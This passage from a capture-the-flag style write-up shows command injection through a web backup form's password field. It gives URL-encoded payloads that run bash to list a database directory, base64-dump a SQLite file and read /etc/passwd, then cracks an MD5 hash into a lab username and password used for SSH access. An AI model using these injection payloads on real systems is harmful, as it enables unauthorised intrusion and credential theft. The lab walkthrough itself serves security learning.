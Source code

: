 ![](cybersecurity/images/Pasted%2520image%252020250414172644.png)

I tried getting a shell at this point but was unable to do it, it seems the server kind of interpret the input but is unable to get us a shell, let's look around the machine, if we remember correctly, there's a `nocturnal_database.db` file at `/nocturnal_database`, if we check the contents of this directory, we can find this:

```
password=%0Abash%09-c%09"ls%09-la%09/var/www/nocturnal_database"%0A&backup=Create+Backup
```

![](cybersecurity/images/Pasted%2520image%252020250414172837.png)

There it is, we can use `base64` to get the file into our local machine:

```
password=%0Abash%09-c%09"base64%09/var/www/nocturnal_database/nocturnal_database.db"%0A&backup=Create+Backup
```

![](cybersecurity/images/Pasted%2520image%252020250414172949.png)

We need to copy the content of it and do:


```
echo 'BASE64 STRING' | base64 -d > nocturnal_database.db
```

With this, we can now analyze the file using `sqlitebrowser`:

![](cybersecurity/images/Pasted%2520image%252020250414173043.png)

We see some hashes, we can try using the command injection to check which user has a bash console, since cat is disabled with this, we can try head:

```
password=%0Abash%09-c%09"head%09-n%0950%09/etc/passwd"%0A&backup=Create+Backup
```

![](cybersecurity/images/Pasted%2520image%252020250414173258.png)

Seems like the user we need is `tobias`, let's crack the hash, it is a simple `md5` hash:


![](cybersecurity/images/Pasted%2520image%252020250414173336.png)


There we go, we finally got credentials:

```
tobias:slowmotionapocalypse
```

We can go to ssh with these:

![](cybersecurity/images/Pasted%2520image%252020250414173415.png)

Let's go with privilege escalation.
